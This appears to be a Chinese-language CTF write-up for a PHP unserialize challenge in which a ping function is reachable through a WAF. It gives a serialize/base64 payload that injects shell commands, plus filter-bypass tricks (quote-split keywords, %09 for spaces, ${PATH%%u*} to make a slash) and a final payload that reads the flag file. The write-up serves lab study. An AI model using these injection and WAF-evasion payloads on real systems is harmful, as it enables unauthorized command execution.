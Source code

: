 
这里的代码就是说服务器收到post包，然后检查里边有没有ctf这个表项，有的话根据上述情况做‘ping’的执行以及waf的过滤，魔法函数由序列化函数触发。

好，那么思路就明确了，我们需要用post包发送有关ctf的参数，这个参数要包含在ping这个数组里边。同时，这个ctf里边的参数是序列化后并且经过base64加密后的数据。数据到达服务端后需要绕过上述waf的过滤。

于是，我们可以构造payload如下：

```
$a=new ease('ping',array(urldecode('whoami'))); //用url编码来进行web上边的传输

echo urlencode(base64_encode(serialize($a)));//需要由回显的
```

这样就完成了注入的查询。

##### hackbar写表单：

![hackerbar构造](D:\RE\learn\before\WEB\unseping\hackerbar构造.jpg)

因为是post传表单，里边的body里是序列化后的payload。如果用get的话是在url写payload信息。

然后我们可以用绕过来找flag的位置，关键字可以用单引号绕过，比如 flag 可以写成：

```
fl\'\'ag
```

特殊符号/\等的绕过方法可以参考下方：

https://blog.csdn.net/qq_34246965/article/details/108085291

```
${}
假设我们定义了一个变量为：
file=/dir1/dir2/dir3/my.file.txt
我们可以用 ${ } 分别替换获得不同的值：
${file#*/}：拿掉第一条 / 及其左边的字串：dir1/dir2/dir3/my.file.txt
${file##*/}：拿掉最后一条 / 及其左边的字串：my.file.txt
${file#*.}：拿掉第一个 . 及其左边的字串：file.txt
${file##*.}：拿掉最后一个 . 及其左边的字串：txt
${file%/*}：拿掉最后条 / 及其右边的字串：/dir1/dir2/dir3
${file%%/*}：拿掉第一条 / 及其右边的字串：(空值)
${file%.*}：拿掉最后一个 . 及其右边的字串：/dir1/dir2/dir3/my.file
${file%%.*}：拿掉第一个 . 及其右边的字串：/dir1/dir2/dir3/my



`${}`
一定是用反单引号啊！不要写成单引号了！！
可以代替 ‘’ 和 “”
在 `` 中可以使用 ${} 直接把变量和字符串拼接起来
```

于是可构造如下payload：

```
ca\'\'t%09fl\'\'ag_1s_here${PATH%%u*}fl\'\'ag_831b69012c67b35f.p\'\'hp
```
